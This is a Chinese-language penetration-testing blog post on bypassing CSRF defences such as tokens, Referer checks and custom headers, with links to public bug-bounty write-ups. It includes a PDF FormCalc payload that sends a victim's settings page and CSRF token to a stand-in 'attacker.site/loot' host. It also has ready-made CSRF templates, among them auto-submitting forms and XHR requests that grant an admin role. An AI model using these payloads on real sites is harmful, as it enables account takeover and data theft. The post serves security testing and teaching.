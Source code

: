 ```yaml
---
layout: post
title: CSRF Bypass
categories: Pentest
description: CSRF Bypass
keywords: Pentest
---
```

我的twitter @C1h2e11每天固定转载优质文章和思路，欢迎关注！
#	 起因
我最近在研究国外的各种新思路，最近看到了一篇CSRF的相关文章，只是写了各种Poc，我在写之前查找了大量的案例，这也就是为什么说技术分享的受益最大永远都是分享者，在这些案例里面我发现大多都是没有CSRF token或者其他防护机制的，同样的我查找了很多文章关于CSRF攻击，也并没有找到我想要的，于是就有了今天的文章


# CSRF Protection?
我们在漏洞挖掘过程中不难看出，很多时候我们会遇到各种CSRF的防护机制，随便一个网站都有token或者其他的防护机制。下面我们需要了解一下常见的防护方法
-	CSRF token
-	Referer Based Protection
-	XRSF Header
-	verify code
-	Seesions timeout
-	Double Password
....



# Bypass
我尽力寻找了各种案例和bypass思路，文后会有我看过的文章链接

---
删！
这个思路再很多时候都适用，面对`Referer` `XRSF Header` `token`都可以对其进行删除
这里我们用一个案例来说明
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`
写文的日子是`2019-1-8`这个write up是前天的漏洞，删除了`XRSF Header`

---
改！
这个思路我是在medium上看见的
`https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276`
修改了请求方式GET改成了POST 同样的漏洞挖也挖到过一次，我先修改了请求方式，并把POST的参数通过GET传入，但是也成功完成了CSRF攻击
如果你观察的仔细的话你可以看出
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`这个案例删除了`XRSF Header`但是没有成功还是需要修改POST为GET

---
盗token！
尝试从其他渠道获得CSRF token
`http://www.anquan.us/static/bugs/wooyun-2015-090935.html`
利用了Referer泄露获取CSRF token 再利用CSRF token进行CSRF攻击

---
Use Bad PDF
`get() and post() methods of FormCalc allow to ex-filtrate CSRF-token`
这是我在twitter找到的一个文档上的原文
其实就是我们的PDF被浏览器解析，因为插件的原因可以进行请求，我们上传恶意的PDF文件在目标网站这样可以绕过referer甚至CSRF token ，这个漏洞和去年(2018)阿里的Chrome支持的PDF跳转是类似的。
我们只需要制作恶意的PDF文件，在里面插入我们的恶意代码
```html
<script contentType='application/x-formcalc'>
var content = GET("https://example.com/Settings.action"); Post("http://attacker.site/loot",content,"text/plain");
</script>
```
没错Poc是抄的，原地址
`https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf`
这是一个CSRF bypass的PPT本文的一些思路也取自这里

---
改Cookie！
有些时候我们会遇到哪种可以修改cookie的漏洞
比如`CLRF`等，我们可以利用这些漏洞打组合拳进行CSRF攻击

---
组合拳！
XSS+CSRF
可以利用XSS漏洞进行直接的请求饶过Referer限制
也可以利用XSS盗取CSRF token 从而进行CSRF漏洞利用

---

# 浓缩
我在寻找更多bypass手段的时候我找到了这个调查
![PIC](http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF1.png)
![PIC](http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF2.png)
那么我们真正在实战中用到比较多的就是

-	删除CSRF token
-	置空token参数
-	修改请求方法
-	与token相同长度的任意字符串替换token
-	固定token
我相信看到这里各位已经心领神会了

---





# 关于提交方式
```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```
```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```
```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST"&>
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

#	参考链接
```
https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276
https://medium.com/@iaincollins/csrf-tokens-via-ajax-a885c7305d4a
https://medium.com/@arbazhussain/stealing-access-token-of-one-drive-integration-by-chaining-csrf-vulnerability-779f999624a7
https://medium.com/bugbountywriteup/content-negotiation-with-csrf-969e639d6a1a
https://medium.com/rubyinside/a-deep-dive-into-csrf-protection-in-rails-19fa0a42c0ef
https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf
Check out @detectify’s Tweet: https://twitter.com/detectify/status/1081520785322332166?s=09
http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/
https://github.com/TheRook/CSRF-Request-Builder
```

#	反思
沉淀!
